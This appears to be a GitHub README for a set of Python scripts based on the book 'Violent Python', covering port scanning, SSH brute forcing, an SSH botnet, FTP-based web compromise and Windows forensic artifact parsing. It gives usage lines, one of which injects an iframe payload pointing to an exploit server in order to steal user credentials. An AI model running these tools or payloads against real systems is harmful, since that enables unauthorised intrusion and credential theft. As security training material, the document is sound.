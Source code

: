 # Digital-Forensic-Analytics  
Forensic Investigation, Network Traffic Analysis, Penetration Testing, Antivirus Evasion, Web recon


These codes are almost similar to book: "Violent Python: A Cookbook for Hackers, Forensic Analysts, Penetration Testers and Security Engineers" book by TJ. O’Connor.  

## Operating System  
  
I Use virtualbox to setup a Ubuntu 18.04 LTS linux box to run these on  
The actual i have is Kali Linux 64 Bit 2018.2  
Window7 for few scripts  
  
Where possible i display all he codes with result Jupyter notebook (#FileFormat .ipynb)  
  
# Penetration Testing  
## PortScan.py  
### Building a port scanner
In the command Line pass the port argument as a string i.e in " " for multiple port like follow;  
taymour:∼# python portScan.py -H 10.50.60.125 -p "21, 1720"  
  
## Nmap_Port_Scanner.py
### Nmap Port Scanner
Scan the ports on the provided hosts.

## D) SSH_Botnet.py
### Building An SSH Botnet
Issue commands on ssh hosts at once provided you have the user names and passwords.

## E) sshBrute.py
### Brute Forcing SSH Passwords with Pxssh
Brute forces a host's ssh server with a provided worldlist

## H) botNet.py
### Constructing the SSH Botnet
Change IP, Root, Password to issue SSH commands on compromised machines.

## I) anonLogin.py
### 
First you have to allow /etc/vsftpd.conf file to enable anon_login to yes or uncomment it  

## L) massCompromise.py  
### Mass comprise by bridging FTP and Web
In command line following options are required to attack web pages and inject your own html file to steal compromised user credentials in default location  
Usage from terminal      
taymour# python massCompromise.py -H 192.168.95.179 -r '<iframe src="  
http://10.10.10.112:8080/exploit"></iframe>' -f userpass.txt  

# Forensic Investigations with Python
## M) discoverNetworks.py 
### Analysis of wireless aaccess points-WAP in the registry, Using Mechanize to Submit the MAC Address to Wigle
Allow to analyse connected wifi through mac adress by reading windows registry  
Usage from command prompt    
(py27) C:\Users\Taymour> python discoverNetworks.py -u <username> -p <password>  
  
## N) dumpRecycleBin.py  
### Recover deleted items in the recycle bin
Allows to discover deleted items in windows operating system ,also provide information about the user who delete files


## O) PdfRead.py
### Using PyPDF to Parse PDF Metadata
Usage#  
taymour:!# python pdfRead.py -F Violent_Python.pdf  
provide metadata and information about pdf like creation date, user, title, creator, producer etc.  


## P) exifFetch.py
### Reading Exif Metadata from Images
build a script to connect to a Website, download all the images on the site, and then check them for Exif metadata.  
#Usage in CMD   
  
python exifFetch.py -u http://www.flickr.com/photos/dvids/4999001925/sizes/o  


## Q) skype-parse.py  
### Investigating skype application artifacts
  
List out variety of contents of skype in python console about skype user history name, tags, location, text messages etc  
Usage#  
python skype-parse.py -p C:\AppData\Roaming\Microsoft\Skype_for_Desktop\skylib\taymourniazi  
  
## R) .py  
###

